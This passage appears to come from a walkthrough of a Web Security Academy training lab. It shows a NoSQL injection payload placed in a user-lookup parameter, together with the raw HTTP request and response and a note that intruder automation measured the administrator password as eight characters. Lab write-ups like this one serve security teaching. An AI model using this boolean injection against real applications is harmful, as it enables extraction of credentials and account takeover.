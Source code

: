 	
	```
	
	```
	HTTP/1.1 200 OK
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 96
	
	{
	    "username": "administrator",
	    "email": "admin@normal-user.net",
	    "role": "administrator"
	}
	```
	
	First thing, we need to figure out how long the password is. The following request will return the right response if the condition is true, and will return a user not found error if it's false.
	
	```
	GET /user/lookup?user=administrator'%20%26%26%20this.password.length%20%3E%201%20%7C%7C%20'a'%3D%3D'b HTTP/1.1
	Host: 0aa7008b033ca58c807c083c00f8009e.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Referer: https://0aa7008b033ca58c807c083c00f8009e.web-security-academy.net/my-account?id=wiener
	Connection: keep-alive
	Cookie: session=QMIuURiqO62GwvlLWRvDsROkHS4k2u5q
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-PwnFox-Color: magenta
	Priority: u=4
	
	```
	
	Running this through automate (intruder, whatever) we see that we get the correct response with `this.password.length > 7`, but it fails with `> 8`, so we know the password has 8 characters. 
	